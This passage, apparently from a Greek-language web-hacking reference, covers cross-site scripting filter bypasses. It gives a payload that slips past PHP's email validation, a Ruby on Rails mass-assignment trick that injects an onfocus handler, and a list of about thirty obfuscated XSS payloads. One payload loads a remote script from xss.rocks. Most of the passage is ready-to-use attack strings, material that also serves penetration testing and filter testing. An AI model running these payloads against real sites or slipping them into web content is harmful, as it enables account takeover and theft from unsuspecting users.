 Μπορείτε να ελέγξετε αν οι **αντανάκλαση τιμές** κανονικοποιούνται σε **unicode** στον διακομιστή (ή στην πλευρά του πελάτη) και να εκμεταλλευτείτε αυτή τη λειτουργία για να παρακάμψετε τις προστασίες. [**Βρείτε ένα παράδειγμα εδώ**](../unicode-injection/#xss-cross-site-scripting).

### Παράκαμψη σημαίας PHP FILTER\_VALIDATE\_EMAIL
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### Ruby-On-Rails bypass

Λόγω της **μαζικής ανάθεσης RoR**, εισάγονται αποσπάσματα στο HTML και στη συνέχεια παρακάμπτεται ο περιορισμός αποσπασμάτων και μπορούν να προστεθούν επιπλέον πεδία (onfocus) μέσα στην ετικέτα.\
Παράδειγμα φόρμας ([από αυτή την αναφορά](https://hackerone.com/reports/709336)), αν στείλετε το payload:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
Το ζευγάρι "Key","Value" θα αναπαραχθεί όπως αυτό:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
Τότε, το χαρακτηριστικό onfocus θα εισαχθεί και θα συμβεί XSS.

### Ειδικοί συνδυασμοί
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```
### XSS με έγχυση κεφαλίδων σε απόκριση 302
